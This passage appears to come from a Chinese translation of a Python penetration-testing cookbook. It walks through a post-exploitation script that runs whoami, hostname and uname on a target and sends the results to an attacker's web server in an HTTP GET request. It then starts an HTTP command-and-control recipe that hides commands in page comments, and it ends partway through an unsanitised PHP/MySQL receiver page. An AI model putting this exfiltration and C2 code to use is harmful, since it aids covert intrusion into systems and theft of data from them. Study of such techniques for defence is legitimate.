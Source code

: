 ## 它是如何工作的…

导入后，脚本的第一部分将创建一个命令数组：

```py
commands = ['whoami','hostname','uname']
```

这是三个标准 Linux 命令的示例，这些命令可以将有用的信息反馈给攻击者。注意，这里假设目标服务器正在运行 Linux。使用前几章中的脚本进行侦察，以确定目标的操作系统，并在必要时将此阵列中的命令替换为 Windows 等效命令。

接下来，我们有主`for`循环：

```py
            p = subprocess.Popen(command, stderr=STDOUT, stdout=PIPE)
            out[command] = p.stdout.read().strip()
```

这部分代码执行命令并获取来自`subprocess`的输出（将标准输出和标准错误都传输到单个`subprocess.PIPE`）。然后将结果添加到 out 字典中。请注意，我们在这里使用了一个`try`和`except`语句，因为任何无法运行的命令都会导致异常。

最后，我们有一个 HTTP 请求：

```py
requests.get('http://localhost:8000/index.html?' + urllib.urlencode(out))
```

此使用`urllib.encode`将字典转换为 URL 编码的键/值对。这意味着可能影响 URL 的任何字符，例如，`&`或`=`，将转换为其 URL 编码的等效字符，例如，`%26`和`%3D`。

注意，脚本端将没有输出；所有内容都在 HTTP 请求中传递给攻击者的 web 服务器（示例使用端口`8000`上的 localhost）。`GET`请求如下所示：

![How it works…](img/B04044_08_01.jpg)

# 创建 HTTP C2

公然在 URL 中显示您的命令的问题是，即使是半睡半醒的日志分析师也会发现它。有多种隐藏请求的方法，但是当您不知道响应文本是什么样子时，您需要提供一种隐藏输出并将其返回到服务器的可靠方法。

我们将创建一个脚本，该脚本将命令和控制活动屏蔽为 HTTP 流量，从网页上的注释中获取命令，并将输出返回到留言簿中。

## 开始

为此，您将需要一个功能正常的 web 服务器，它有两个页面，一个用来存放您的评论，另一个用来存放您的检索页面。

您的评论页面应该只有标准内容。为此，我使用 Nginx 默认主页，并在最后添加注释。评论应表述为：

```py
<!--cmdgoeshere-->
```

检索页面可以简单到：

```py
<?php

$host='localhost';
$username='user';
$password='password';
$db_name="data";
$tbl_name="data";

$comment = $_REQUEST['comment'];

mysql_connect($host, $username, $password) or die("Cannot contact server");
mysql_select_db($db_name)or die("Cannot find DB");

$sql="INSERT INTO $tbl_name VALUES('$comment')";

```